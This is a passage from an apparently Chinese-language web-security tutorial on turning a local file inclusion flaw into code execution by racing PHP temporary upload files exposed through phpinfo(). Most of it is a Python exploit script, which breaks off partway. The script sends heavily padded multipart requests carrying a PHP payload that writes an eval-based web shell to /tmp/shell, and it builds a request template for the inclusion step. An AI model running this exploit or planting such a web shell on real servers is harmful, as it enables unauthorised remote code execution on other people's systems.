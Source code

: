 这里的前提都是存在文件包含

#### 存在phpinfo()

如果存在phpinfo界面 我们通过对phpinfo不断发送垃圾包 其中的内容中包含着木马

这个时候我们上传的临时文件就会保存在 临时文件目录下

并且通过linux和win的命名规则存储

我们只需要去包含 就会生成木马

这里只需要通过条件竞争即可

```cobol
#!/usr/bin/python3
import sys
import threading
import socket
 
 
def setup(host, port):
    TAG = "安全测试"
    PAYLOAD = """%s\r
<?php file_put_contents('/tmp/shell', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG
    REQ1_DATA = """-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding = "A" * 5000
    REQ1 = """POST /phpinfo.php?a=""" + padding + """ HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie=""" + padding + """\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """ + padding + """\r
HTTP_ACCEPT_LANGUAGE: """ + padding + """\r
HTTP_PRAGMA: """ + padding + """\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" % (len(REQ1_DATA), host, REQ1_DATA)
    # modify this to suit the LFI script
    LFIREQ = """GET /lfi.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)
 
 
def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 
    s.connect((host, port))
    s2.connect((host, port))
 
    s.send(phpinforeq.encode())
    d = b""
    while len(d) < offset:
        d += s.recv(offset)
    try:
```
